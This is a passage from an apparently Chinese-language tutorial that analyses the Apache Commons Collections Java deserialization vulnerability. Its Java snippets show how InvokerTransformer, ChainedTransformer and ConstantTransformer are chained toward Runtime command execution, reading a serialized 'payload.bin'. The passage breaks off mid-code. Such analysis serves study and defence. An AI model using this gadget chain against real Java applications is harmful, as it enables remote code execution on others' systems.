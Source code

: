 ```java
        //触发漏洞，调用transform，input为传入参数
        b.transform(input);
    }
}
```

反序列化

可以看到存在一个问题，必须给`transform`传入一个构造好的Runtime实例也就是`input`才可以触发漏洞，实际环境里不可能有这样一个构造好的实例，那么能否利用反序列化给`transform`传入Runtime实例呢？

```java
import org.apache.commons.collections.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class Serial implements Serializable  {
    public static void main(String[] args) throws Exception{
        //构造传入transform的参数，为Runtime实例，
        Object input=Class.forName("java.lang.Runtime").getMethod("getRuntime").invoke(Class.forName("java.lang.Runtime"));

        //反序列化
        FileInputStream fi=new FileInputStream("payload.bin");
        ObjectInputStream fin=new ObjectInputStream(fi);
        InvokerTransformer b=(InvokerTransformer) fin.readObject();

        //触发漏洞，调用transform，input为传入参数
        b.transform(input);
    }
}

```

[![RDxr8I.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b09d3358225ee9b53b3b36a381f703c155af4d7f.png)](https://imgtu.com/i/RDxr8I)

`org.apache.commons.collections.functors.ChainedTransformer#transform`

这里可以控制传入`transform`的参数，因为`object`的来源是上一次`this.ITransformers[i].transform`的返回值，而且因为`iTransformers`可控，我们可以调用任意一个类的`transform`方法

[![RDxl59.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-05067e96ff2bb8ae754b14559e8138f0beec9c55.png)](https://imgtu.com/i/RDxl59)

`org.apache.commons.collections.functors.ChainedTransformer#ConstantTransformer`

这里我们可以控制`this.iContant`，它会等于下一次执行的传入参数`object`。表面上看让它等于`Runtime实例`就解决了之前无法传入`Runtime`实例的问题，但是实际上并不可行，因为Runtime类不能被反序列化

[![RDxUbD.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-db24af66cc174f4dacd09be06a5ff0b7364d7f2d.png)](https://imgtu.com/i/RDxUbD)

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;

public class Commons_collections_Test {

    public static void main(String[] args) throws Exception {
```